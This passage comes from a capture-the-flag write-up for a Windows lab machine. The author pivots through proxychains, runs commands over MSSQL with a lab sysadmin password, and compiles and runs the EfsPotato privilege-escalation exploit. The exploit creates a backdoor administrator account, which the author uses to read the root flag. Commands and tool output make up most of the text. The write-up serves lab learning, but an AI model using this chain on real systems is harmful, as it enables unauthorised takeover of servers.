Make sure you are using `socks5` and is LISTENING on `127.0.0.1 1080`

```jsx
tail -f /etc/proxychains.conf
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5	127.0.0.1 1080
```

### __**Attacking MSSQL using proxychains - nxc**__

```bash
proxychains nxc mssql 127.0.0.1 -u 'alice.wonderland' -p 'Valentino1@' 
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [+] hack.smarter\alice.wonderland:Valentino1@ (Pwn3d!)

proxychains nxc mssql 127.0.0.1 -u 'alice.wonderland' -p 'Valentino1@' -x whoami
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [+] hack.smarter\alice.wonderland:Valentino1@ (Pwn3d!)
MSSQL       127.0.0.1       1433   DC01             [+] Executed command via mssqlexec
MSSQL       127.0.0.1       1433   DC01             nt service\mssql$sqlexpress

```

`Alice.wonderland` is a `sysadmin` 

```jsx
proxychains nxc mssql 127.0.0.1 -u 'alice.wonderland' -p 'Valentino1@' -M mssql_priv
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [+] hack.smarter\alice.wonderland:Valentino1@ (Pwn3d!)
MSSQL_PRIV  127.0.0.1       1433   DC01             [+] HACK\alice.wonderland is already a sysadmin

```

I tried to get the `administrator's` flag but that didn’t work

```bash
roxychains nxc mssql 127.0.0.1 -u 'alice.wonderland' -p 'Valentino1@' --get-file C:\\Users\\Administrator\\Desktop\\root.txt /tmp/root.txt
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [+] hack.smarter\alice.wonderland:Valentino1@ (Pwn3d!)
MSSQL       127.0.0.1       1433   DC01             [*] Copying "C:\Users\Administrator\Desktop\root.txt" to "/tmp/root.txt"
MSSQL       127.0.0.1       1433   DC01             [+] File "C:\Users\Administrator\Desktop\root.txt" was downloaded to "/tmp/root.txt"
➜  ShareThePain cat /tmp/root.txt

```

No head way till I found this exploit that can be complied and used to the `Administrators` flag

[https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://github.com/zcgonvh/EfsPotato" data-iframely-url="https://iframely.net/Bx4edJFd?card=small&theme=dark"></a></div></div><script async src="https://iframely.net/embed.js"></script>


First, I download the `EsPotate.cs` file locally, then upload it to the compromised windows machine

```bash
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> upload EfsPotato.cs
                                        
Info: Uploading /home/ha5hcat/Tools/EfsPotato.cs to C:\Users\alice.wonderland\Documents\EfsPotato.cs
                                        
Data: 33920 bytes of 33920 bytes copied
                                        
Info: Upload successful!
```

Move it to the `\Temp` directory

```bash
*Evil-WinRM* PS C:\Users\Alice.wonderland\Documents> move EfsPotato.cs C:\Temp

*Evil-WinRM* PS C:\Users\Alice.wonderland\Documents> cd C:\Temp
*Evil-WinRM* PS C:\Temp> dir

    Directory: C:\Temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          1/1/2026   3:19 PM          25441 EfsPotato.cs
-a----          9/3/2025   2:01 PM        6379936 SQLEXPRESS.exe

```

Compile the C code to an executable file

```bash
*Evil-WinRM* PS C:\Temp> C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
Microsoft (R) Visual C# Compiler version 4.8.4161.0

for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

*Evil-WinRM* PS C:\Temp> dir

    Directory: C:\Temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          1/1/2026   3:19 PM          25441 EfsPotato.cs
-a----          1/1/2026   3:31 PM          17920 EfsPotato.exe
-a----          9/3/2025   2:01 PM        6379936 SQLEXPRESS.exe

```

Confirm exploitability

```bash
proxychains nxc mssql 127.0.0.1 -u 'alice.wonderland' -p 'Valentino1@' -x 'C:\\Temp\\EfsPotato.exe'             
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [+] hack.smarter\alice.wonderland:Valentino1@ (Pwn3d!)
MSSQL       127.0.0.1       1433   DC01             [+] Executed command via mssqlexec
MSSQL       127.0.0.1       1433   DC01             Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
MSSQL       127.0.0.1       1433   DC01             Part of GMH's fuck Tools, Code By zcgonvh.
MSSQL       127.0.0.1       1433   DC01             CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]
MSSQL       127.0.0.1       1433   DC01             usage: EfsPotato <cmd> [pipe]
MSSQL       127.0.0.1       1433   DC01             pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)

```

Now to exploit this vulnerability, I will used the `alice.wonderland` permissions to create a user and add that user as a administrator of the local machine

```bash
proxychains nxc mssql 127.0.0.1 -u 'alice.wonderland' -p 'Valentino1@' -x "C:\\Temp\\EfsPotato.exe \"cmd.exe /c net user dcyberguy Qwerty123@ /add && net localgroup administrators dcyberguy /add\""
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:1433-<><>-OK
MSSQL       127.0.0.1       1433   DC01             [+] hack.smarter\alice.wonderland:Valentino1@ (Pwn3d!)
MSSQL       127.0.0.1       1433   DC01             [+] Executed command via mssqlexec
MSSQL       127.0.0.1       1433   DC01             Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
MSSQL       127.0.0.1       1433   DC01             Part of GMH's fuck Tools, Code By zcgonvh.
MSSQL       127.0.0.1       1433   DC01             CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]
MSSQL       127.0.0.1       1433   DC01             [+] Current user: NT Service\MSSQL$SQLEXPRESS
MSSQL       127.0.0.1       1433   DC01             [+] Pipe: \pipe\lsarpc
MSSQL       127.0.0.1       1433   DC01             [!] binding ok (handle=ef4de0)
MSSQL       127.0.0.1       1433   DC01             [+] Get Token: 780
MSSQL       127.0.0.1       1433   DC01             [!] process with pid: 1088 created.
MSSQL       127.0.0.1       1433   DC01             ==============================
MSSQL       127.0.0.1       1433   DC01             The command completed successfully.
MSSQL       127.0.0.1       1433   DC01             The command completed successfully.

```

Login with the new user and grap the administrator’s flag.

```bash
evil-winrm -i 10.0.27.11 -u dcyberguy -p 'Qwerty123@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\dcyberguy\Documents> cd C:\Users\Administrator
*Evil-WinRM* PS C:\Users\Administrator> dir

    Directory: C:\Users\Administrator

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---          9/2/2025   2:09 PM                3D Objects
d-r---          9/2/2025   2:09 PM                Contacts
d-r---          9/6/2025   8:52 PM                Desktop
d-r---          9/2/2025   7:26 PM                Documents
d-r---          9/2/2025   2:09 PM                Downloads
d-r---          9/2/2025   2:09 PM                Favorites
d-r---          9/2/2025   2:09 PM                Links
d-r---          9/2/2025   2:09 PM                Music
d-r---          9/2/2025   2:09 PM                Pictures
d-r---          9/2/2025   2:09 PM                Saved Games
d-r---          9/2/2025   2:09 PM                Searches
d-r---          9/2/2025   2:09 PM                Videos

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/2/2025   6:46 PM           2308 Microsoft Edge.lnk
-a----          9/3/2025   2:10 PM            126 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
YWxsIGFib3V0IHRoYXQgcm9vdCwgYm91dCB0aGF0IHJvb3QsIEpVU1QgREEK

```

## Pwned !!

# Resources used

Action items, timeline, and resource requirements